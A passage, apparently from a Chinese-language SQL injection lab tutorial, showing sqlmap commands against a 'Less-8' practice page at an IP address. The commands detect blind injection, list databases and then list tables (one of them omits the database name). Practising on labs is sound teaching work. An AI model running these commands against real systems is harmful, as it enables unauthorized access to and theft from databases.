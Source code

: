 >sqlmap -u 39.98.88.18:8080/sql/Less-8/index.php?id=1

中间有选项，一路默认即可。然后发现其存在布尔盲注以及时间盲注。

![](img/2.7/14.png)

2.爆数据库

>sqlmap -u 39.98.88.18:8080/sql/Less-8/index.php?id=1 --dbs

![](img/2.7/15.png)

3.我们选择security这个数据库，然后爆表

>sqlmap -u 39.98.88.18:8080/sql/Less-8/index.php?id=1 -D --tables

![](img/2.7/16.png)
